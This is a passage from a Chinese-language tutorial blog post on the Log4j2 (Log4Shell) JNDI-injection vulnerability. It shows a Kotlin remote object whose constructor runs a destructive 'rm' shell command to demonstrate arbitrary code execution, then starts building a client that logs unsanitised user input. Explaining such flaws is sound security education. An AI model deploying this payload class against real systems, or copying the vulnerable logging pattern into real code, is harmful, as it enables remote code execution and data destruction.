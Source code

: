 我们对`RemoteApi.kt`进行略微修改，  

```
RemoteApi.kt
class RemoteApi: RemoteApiInterface, ObjectFactory {

	  constructor() {
        Runtime.getRuntime().exec("rm /Users/mmq/Temporary/data")
    }

    override fun execCommand(): String {
        return "success"
    }

    override fun getObjectInstance(obj: Any?, name: Name?, nameCtx: Context?, environment: Hashtable<*, *>?): Any? {
        return null
    }
}
```

我们在构造函数中，通过Java Application Runtime执行命令`rm`，下图为执行前后的结果。  

![](https://raw.githubusercontent.com/Taaang/blog/master/assets/images/post_imgs/log4j2_leak/6.jpg){:height="500" width="500"}  

执行前`data`文件还在，执行后就被删除了。  

由此可以看出，一旦JNDI注入成功，产生的后果是很可怕的，基本可以在受害者机器上执行任意操作。  

## Log4j2 漏洞  

看到这里，可能还是没能解决你心里的疑惑，  
这一切和Log4j2有什么关系呢，  
虽然JNDI注入可以实现攻击，  
但是除非我自己在日志配置文件里引入了JNDILookups，  
否则也无法对注入的JNDI URI协议进行转换和解析对吧？  

那么触发核弹的按钮究竟在哪？  
很简单，  
输出一条日志就可以了。  

我们来修改一下`RMIClient.kt`，全部的代码如下：  

```
//构建日志Logger
val logger = LogManager.getLogger()

//收集用户输入信息
val inputScanner = Scanner(System.`in`)
val userInput = inputScanner.next()

//通过logger输出用户输入内容
logger.info(userInput)
```
